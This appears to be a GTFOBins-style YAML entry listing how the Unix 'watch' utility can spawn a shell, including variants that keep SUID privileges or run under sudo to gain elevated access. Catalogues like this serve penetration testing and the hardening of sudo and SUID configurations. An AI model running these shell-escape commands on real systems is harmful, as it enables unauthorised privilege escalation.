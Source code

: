 ```yaml
---
functions:
  execute-interactive:
    - code: watch -x sh -c 'reset; exec sh 1>&0 2>&0'
  suid-enabled:
    - description: This keeps the SUID privileges only if the `-x` option is present.
      code: ./watch -x sh -c 'reset; exec sh 1>&0 2>&0'
  sudo-enabled:
    - code: sudo watch -x sh -c 'reset; exec sh 1>&0 2>&0'
  suid-limited:
    - code: ./watch 'reset; exec sh 1>&0 2>&0'
---
```

